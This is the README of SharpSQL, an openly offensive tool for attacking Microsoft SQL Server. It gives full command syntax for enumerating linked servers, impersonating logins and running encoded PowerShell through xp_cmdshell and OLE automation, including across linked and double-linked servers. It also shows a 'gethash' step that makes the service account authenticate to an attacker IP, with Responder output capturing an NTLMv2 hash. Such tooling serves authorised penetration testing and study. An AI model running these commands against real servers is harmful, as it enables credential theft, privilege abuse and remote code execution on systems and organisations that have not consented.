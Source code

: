 # SharpSQL

----

### Command Line Usage


    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    MSSQL Authenticated Server Enumeration and Impersonation:
        [1] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
            SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
            SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve SQL Logins Available for Impersonation and Impersonate the Available Login:
            SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
            SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
        [1] Execute Encoded PowerShell Command via 'xp_cmdshell':
            SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command via 'Ole Automation Procedures':
            SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
            SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Configure Linked SQL Server to Allow RPC connections:
            SharpSQL.exe rpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    MSSQL Double Linked Server Command Execution:
        [1] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]


### getlinked

    C:\SharpSQL>SharpSQL.exe getlinked /db:master /server:SQL1

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve Linked Servers
        Usage: SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'SQL1' Successful!
    [*] Linked SQL server: SQL2
    [*] Linked SQL server: SQL1\SQLEXPRESS


### getdbuser

    C:\SharpSQL>SharpSQL.exe getdbuser /db:master /server:SQL1

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve Information on the SQL Login, Currently Mapped User, and Available User Roles
        Usage: SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'SQL1' Successful!
    [+] Logged in as: SQL1\Administrator
    [+] Mapped to user: dbo
    [+] User is a member of the 'Public' role
    [+] User is a member of the 'sysadmin' role


### getlogin

    C:\SharpSQL>SharpSQL.exe getlogin /db:master /server:SQL1

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve SQL Logins Available for Impersonation
        Usage: SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'SQL1' Successful!
    [+] Logged in as: SQL1\Administrator


### gethash

    C:\Users\Administrator>SharpSQL.exe gethash /db:master /server:web06 /ip:192.168.49.61

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.1.0

    [*] Action: Retrieve Net-NTLM Hash for Service Account
        Usage: SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    [+] Authentication to the 'master' Database on 'web06' Successful!

    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-

    [10/06/21 2:23:49]
    (root💀jb05s)-[~/tools/Responder]
    └─# python3 ./Responder.py -I tun0                                                                
                                         __
      .----.-----.-----.-----.-----.-----.--|  |.-----.----.
      |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
      |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                       |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

      Author: Laurent Gaffie (laurent.gaffie@gmail.com)
      To kill this script hit CTRL-C

    [+] Poisoners:
    ...
    [+] Servers:
    ...
    [+] HTTP Options:
    ...
    [+] Poisoning Options:
    ...
    [+] Generic Options:
    ...
    [+] Current Session Variables:
    ...

    [+] Listening for events...                                                                                                                                                           

    [SMB] NTLMv2-SSP Client   : 10.0.0.5
    [SMB] NTLMv2-SSP Username : JB05S\SQLSvc
    [SMB] NTLMv2-SSP Hash     : SQLSvc::JB05S:1e9bb47f248b4395:BF0D807BE57380FDDCFC5E87C8ED3894:...